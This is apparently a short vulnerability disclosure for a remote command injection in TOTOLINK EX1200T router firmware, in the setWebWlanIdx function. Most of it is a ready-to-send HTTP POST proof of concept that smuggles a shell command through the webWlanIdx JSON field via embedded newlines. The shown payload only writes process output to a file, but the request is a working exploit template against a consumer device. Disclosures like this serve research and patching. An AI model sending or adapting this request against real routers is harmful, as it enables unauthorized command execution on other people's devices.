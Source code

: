 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setWebWlanIdx` of the file `wireless.so` , we can control the `webWlanIdx` to attack.

![image-20211124154902268](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211124154902268.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 76

{"topicurl":"setting/setWebWlanIdx",
"webWlanIdx":"\nps>/web_cste/test1\n"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)

